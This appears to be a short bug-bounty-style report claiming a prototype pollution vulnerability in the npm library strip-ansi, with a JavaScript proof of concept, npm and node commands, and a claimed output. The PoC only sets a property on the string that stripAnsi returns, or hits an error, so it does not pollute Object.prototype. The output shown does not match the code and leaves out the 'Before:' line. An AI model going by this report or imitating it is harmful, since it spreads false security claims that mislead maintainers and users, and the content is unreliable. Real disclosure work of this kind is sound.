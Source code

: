 # Description

`strip-ansi` is a popular library with 61,107,490 Weekly downloads.It is used to  escape ANSI codes from a strings.It is also vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
var stripAnsi = require('strip-ansi');
const obj = {}
console.log('Before: ' + {}.polluted)
stripAnsi(obj['__proto__'], {}).polluted = 'Polluted!'
console.log('After: ' + {}.polluted)
```

2. Execute the following commands in terminal:

```
npm i strip-ansi # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
After: Polluted!
```
